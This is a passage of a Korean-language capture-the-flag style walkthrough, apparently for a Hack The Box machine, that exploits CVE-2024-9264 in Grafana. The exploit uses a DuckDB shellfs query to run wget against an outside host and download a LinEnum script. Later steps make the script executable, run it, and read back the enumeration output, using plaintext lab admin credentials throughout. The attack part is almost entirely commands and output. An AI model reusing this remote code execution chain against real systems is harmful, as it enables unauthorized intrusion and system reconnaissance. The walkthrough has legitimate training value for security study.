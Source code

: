 ```sql
-- CVE 익스플로잇이 생성하는 실제 DuckDB 쿼리
SELECT 1;
install shellfs from community;
LOAD shellfs;
SELECT * FROM read_csv('wget http://10.10.16.12:8000/linenum.sh >/tmp/grafana_cmd_output 2>&1 |');
```

**실행 결과 분석:**

```
[+] Logged in as admin:0D5oT70Fq13EvB5r        # Grafana 로그인 성공
[+] Executing command: wget http://10.10.16.12:8000/linenum.sh  # 명령 실행
[+] Successfully ran duckdb query:              # DuckDB 쿼리 성공
--2025-06-03 14:19:42--  http://10.10.16.12:8000/linenum.sh    # wget 시작
Connecting to 10.10.16.12:8000... connected.   # 연결 성공
HTTP request sent, awaiting response... 200 OK  # HTTP 요청 성공
Length: 46631 (46K) [text/x-sh]                # 파일 크기: 46KB
Saving to: 'linenum.sh.3'                      # 저장 파일명 (중복으로 .3 붙음)
```

### 4단계: 누락된 중간 단계들 (완성을 위한 추가 과정)

#### 4-1. 파일 실행 권한 부여

```bash
# 다운로드한 스크립트에 실행 권한 부여
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "chmod +x linenum.sh.3" http://grafana.planning.htb
```

#### 4-2. LinEnum 스크립트 실행

```bash
# 시스템 정보 수집 스크립트 실행
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "./linenum.sh.3 > /tmp/enum_result.txt 2>&1" http://grafana.planning.htb
```

**명령어 분석:**

- `./linenum.sh.3`: 다운로드한 스크립트 실행
- `> /tmp/enum_result.txt`: 표준 출력을 파일로 리다이렉션
- `2>&1`: 표준 에러도 표준 출력으로 합쳐서 저장

#### 4-3. 실행 완료 확인

```bash
# 스크립트 실행 상태 확인
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "ls -la /tmp/enum_result.txt" http://grafana.planning.htb
```

### 5단계: 결과 데이터 추출

```bash
# 수집된 시스템 정보 읽기
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -q "SELECT content FROM read_blob('/tmp/enum_result.txt')" http://grafana.planning.htb
```
